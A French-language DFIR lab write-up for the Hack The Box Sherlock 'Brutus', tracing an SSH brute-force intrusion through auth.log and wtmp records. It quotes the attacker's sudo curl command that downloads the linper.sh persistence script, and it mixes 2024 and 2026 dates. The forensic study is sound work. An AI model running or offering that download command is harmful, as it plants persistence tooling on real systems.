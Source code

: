 # Sherlock: SOC & DFIR Exercice

## Title: Brutus

## Date: 03/10/2025

## Objective:
Le but de cet exercice est d'analyser **Unix auth.log** et **wtmp logs**. Notre serveur **Confluence** est exploité par la technique: **brute-forcing**.
On doit identifier la source d’un accès non autorisé par le groupe et leur techniques pour: **Privilege Escalation**, **Persistence**, **Exécution de Commandes**. En général, on analysera leur actions malveillants.

## Environment / Tools Used:
* HTB Sherlocks: Intro-to-Blue-Team Track
* Linux, auth.log, wtmp, utmpdump, MITTRE ATT&CK

## Investigation Steps:
1. Analyser les informations disponiblees dans Linux System: **auth.log** et **wtmp**.
2. Utiliser **MITTRE ATT&CK** et l'outil: **utmpdump**
3. Faire une connexion entre les activités de l'attaquant.
4. Finaliser ce que nous devons faire pour notre entreprise.

## Findings:
1. On doit trouver l'IP address de l'attaquant:
    - Quand on a analysé la source: `auth.log`, on a trouvé les tentatives plusiers avec l'IP: `65.2.161.68`
    - Le `06-03-2026`, À `06:31:31` heure, ça c'est passé.
    - La raison est que ces tentatives ont généré beaucoup de message d'échec (Failure Messages)
    - Donc, c'est la signé de **l'attaque** de **brute force**
    - Voilà, la preuve:
    ![Drapeau #1: IP addresse de l'attaquant](images/1.png)

2. Il y a un compte compromis, on doit trouver ça.
    - Quand on a analysé la source: `auth.log`
    - On a trouvé que le compte de l'utilisateur: **root** est exploité: il y a les preuves de message d'échec et le message: `Accepted Password`
    - À `06:32:444` heure, ça c'est passé.
    - Voilà, la preuve:
    ![Drapeau #2: Le compte compromis](images/2.png)

3. On doit trouver la date et le temps quand l'attaquant a fait le premier login après `brute force`
    - On voit que `Accepted Password` était le `06-03-2024` à `06:32:44` dans le fichier `auth.log`
    - Après, on analysé `wtmp` logs par l'outil **utmpdump** et trouvé que à `06:32:45` il y a un login réussi.
        - Commande: `utmpdump wtmp -o time_converted`
    - Voilà, la preuve:
    ![Drapeau #3: Le temps du premier login](images/3.png)

4. Maintenant, on doit trouver le **session id** par **SSH** pour l'utilisateur: **root**
    - Quand on a analysé `auth.log` > on a trouvé que l'ID session de SSH est `37`
    - Voilà, la preuve:
    ![Drapeau #4: L'ID session de SSH](images/4.png)

5. On doit trouver le **nouveau compte** crée par l'attaquant pour préserver **persistence**
    - On continue d'analyser le fichier: `auth.log`
    - On a trouvé que le `06-03-2024` à `06:34:18` heure, le nouvel utilisateur:`cyberjunkie` est crée par l'attaquant
    - Voilà, la preuve pour ça:
    ![Drapeau #5: Le nom du nouvel compte crée par l'attaquant](images/5.png)

6. On doit trouver ce que la technique de la tactique: **persistence** utilisé par l'attaquant est marqué dans **MITTRE ATT&CK**. Plus précisement, la technique de creer **nouveau compte**.
    - On a analysé le site Web de MITTRE et a trouvé l'information nécessaire sous le colonne:
        - `Persistence > Create Account > Local Account`: **T1136.001**
    - Voilà, la preuve pour cela:
    ![Drapeau #6: Le nom de sub-technique utilisé sur le site MITTRE ATT&CK](images/6.png)

7. On doit trouver quand l'attaquant a fait `logout` de SSH session
    - On connaît l'ID de la séance SSH: **37**, donc, il faut suivre ça.
    - On l'a ça et a obtenu le temps: le `06-03-2024` à `06:37:24`, **la séance 37 de SSH est terminé**.
    - Voilà, la preuve:
    ![Drapeau #7: Le temps de quand la séance SSH est terminé](images/7.png)

8. On doit trouver la commande de l'attaquant utilisé pour télécharger **script** en utilisant **sudo**.
    - On continue d'analyser la source: `auth.log`
    - À ce moment, on analysé les activités après `06:37:24` et il faut suivre les activités de **sudo**.
    - On a trouvé cette commande: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
    - Voilà, la preuve:
    ![Drapeau #8: La commande pour télécharger le script](images/8.png)

## Key Learning / Takeaway:
1. **auth.log** montre et enregistrie `événement d'authentication: successful/failed logins` et également `l'usage de sudo, les tentatives SSH`
2. **wtmp** montre et enregistre `logins / logouts / reboots` et `c'est qui fait login et quand`
3. Dans Linux OS >> il y a 3 locations:
    - `utmp >> /var/run/utmp` enregistre les utilisateurs actuels.
    - `wtmp >> /var/log/wtmp` >> c'est une histoire de tous les logins et logouts.
    - `btmp >> /var/log/btmp` >> enregistre les login d'échec.

## Voilà:
- **Voilà, ça y est, c'est fini:** `https://labs.hackthebox.com/achievement/sherlock/2118023/631`
